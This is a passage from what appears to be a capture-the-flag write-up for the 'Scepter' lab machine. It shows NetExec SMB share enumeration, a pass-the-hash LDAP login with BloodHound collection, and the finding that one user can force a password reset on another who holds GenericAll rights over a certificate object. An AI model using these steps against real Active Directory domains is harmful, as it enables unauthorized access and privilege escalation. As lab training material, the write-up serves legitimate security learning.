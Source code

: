 ```bash
SMB         10.129.28.117   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.28.117   445    DC01             NETLOGON        READ            Logon server share
SMB         10.129.28.117   445    DC01             SYSVOL          READ            Logon server share

➜ nxc ldap scepter.htb -u 'd.baker' -H '18...ce' --bloodhound --dns-tcp --dns-server 10.129.28.117 -c all
SMB         10.129.28.117   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:scepter.htb) (signing:True) (SMBv1:False)
LDAP        10.129.28.117   389    DC01             [+] scepter.htb\d.baker:18...ce
LDAP        10.129.28.117   389    DC01             Resolved collection methods: trusts, psremote, rdp, localadmin, session, acl, dcom, group, objectprops, container
LDAP        10.129.28.117   389    DC01             Done in 00M 05S
LDAP        10.129.28.117   389    DC01             Compressing output into /root/.nxc/logs/DC01_10.129.28.117_2025-04-21_234209_bloodhound.zip
```
As we can see, **d.baker** can change the password of **a.carter**

![alt text](../assets/image_scepter/1BHforcechangepassword.png)

And **a.carter** has **GenericAll** rights on **STAFF ACCESS CERTIFICATE@SCEPTER.HTB**
